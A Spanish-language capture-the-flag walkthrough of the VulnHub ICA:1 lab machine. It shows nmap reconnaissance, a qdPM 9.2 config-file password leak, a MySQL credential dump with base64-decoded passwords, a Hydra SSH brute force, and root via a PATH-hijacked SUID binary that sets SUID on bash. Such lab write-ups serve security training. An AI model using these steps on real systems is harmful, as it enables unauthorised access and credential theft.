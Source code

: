 
---

**1. Descargar la máquina de Vulhub:**

[ICA:1 Vulhub](https://www.vulnhub.com/entry/ica-1,748/)

---

**2. Localizamos la máquina con `arp-scan`:**

```bash
arp-scan --localnet
```

---

**3. Realizamos un ping a la máquina:**

```bash
ping <IP_victim>
```

---

**4. Reconocimiento con `nmap` y a sus puertos:**

```bash
nmap -p- -sCV --min-rate=5000 -vvv -n -Pn <IP_victim> -oG escaneo
```

```bash
nmap -p22,80,3306,33060 <IP_victim> -oN targeted
```

---

**5. Hicimos un `whatweb` para ver tecnologías:**

```bash
whatweb <IP_victim>
```

---

**6. Investigamos el sitio web:**

Al revisar la página web, encontramos que tiene **qdPM 9.2**. Investigamos vulnerabilidades asociadas con esta versión usando `searchsploit`:

```bash
searchsploit qdPM 9.2
```

Nos encontramos con una vulnerabilidad de **Password Exposure**. Procedemos a revisar el código con:

```bash
searchsploit -x php/webapps/50176.txt
```

Esto nos indica que la contraseña para conectarse a la base de datos está en un archivo `.yml`.

---

**7. Accedemos al archivo `databases.yml`:**

Copiamos la ruta del archivo y la añadimos al final de la URL:

```bash
http://<IP_victim>/core/config/databases.yml
```

Descargamos el archivo y al revisarlo con `cat`, encontramos un **usuario y contraseña**. Intentamos acceder por SSH y el login, pero no tuvimos éxito.

---

**8. Conexión a la base de datos:**

Probamos conectarnos a la base de datos con:

```bash
mysql -uqadpmadmin -h <IP_victim> -p
```

Tuvimos un error y lo solucionamos con el siguiente comando:

```bash
mysql -uqdpmadmin -h 192.168.100.126 -p --ssl=0
```

---

**9. Exploramos la base de datos:**

Una vez dentro de la base de datos:

```sql
show databases;
use staff;
select * from login;
select * from user;
```

Las contraseñas están en **Base64**, así que las decodificamos:

```bash
echo "c3VSSkFkR3dMcDhkeTNyRg==" | base64 -d; echo
```

Para descifrar todas las contraseñas de una vez:

```bash
for password in c3VSSkFkR3dMcDhkeTNyRg== N1p3VjRxdGc0MmNtVVhHWA== WDdNUWtQM1cyOWZld0hkQw== REpjZVZ5OThXMjhZN3dMZw== Y3FObkJXQ0J5UzJEdUpTeQ==; do echo $password | base64 -d; echo; done | tee passwords
```

---

**10. Ataque de fuerza bruta a SSH con Hydra:**

Creamos un archivo llamado **user** con los usuarios encontrados y utilizamos **Hydra** para realizar un ataque de fuerza bruta al servicio SSH:

```bash
hydra -L users -P passwords ssh://<IP_victim>
```

Nos logeamos por SSH y ahora es momento de escalar privilegios.

---

**11. Escalación de privilegios:**

Buscamos binarios con permisos SUID:

```bash
find / -perm -4000 -user root 2>/dev/null
```

Vemos un binario SUID en el directorio `/opt/get_access`. Lo analizamos:

```bash
ls -l /opt/get_access
file /opt/get_access
```

Revisamos las **strings** para ver caracteres imprimibles y encontramos un archivo `cat/root/system.info`.

---

**12. Secuestro de binario y escalación de privilegios:**

Creamos nuestro propio binario `cat` en el directorio `/tmp/`:

```bash
touch /tmp/cat
chmod +x /tmp/cat
```

Modificamos nuestro **$PATH** para que apunte a `/tmp/`:

```bash
export PATH=/tmp:$PATH
```

Con este binario, cambiamos los permisos de **bash** a SUID:

```bash
chmod u+s /bin/bash
```

Ejecutamos el binario para obtener acceso root:

```bash
/opt/get_access
```

El mensaje dice: "All services are disabled. Accessing to the system is allowed only within working hours."

---

**13. Obtenemos acceso como root:**

Verificamos los permisos de **bash**:

```bash
ls -l /bin/bash
```

Ahora que **bash** tiene permisos SUID, ejecutamos:

```bash
bash -p
whoami
```

Y ¡somos root!

Para evitar problemas, quitamos `/tmp` de nuestro **$PATH** y obtenemos la bandera de root.

---

